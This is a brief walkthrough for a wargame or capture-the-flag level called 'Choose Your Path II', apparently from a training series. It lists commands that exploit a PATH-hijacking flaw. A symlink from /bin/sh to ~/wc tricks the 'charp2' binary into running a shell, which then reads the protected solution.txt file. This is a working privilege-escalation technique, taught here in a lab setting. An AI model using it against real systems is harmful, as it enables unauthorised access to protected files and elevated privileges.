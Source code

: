 ## Level 11 - Choose Your Path II

### Instructions
1. Navigate to the "Choose Your Path 2" directory.
2. Create a symbolic link to /bin/sh at ~/wc.
3. Run the `charp2` executable with the provided argument.

### Commands
```bash
cd /home/level/11_choose_your_path2/
ln -s /bin/sh ~/wc
PATH=~ ./charp2 "/bin/cat solution.txt 1>&2"
```
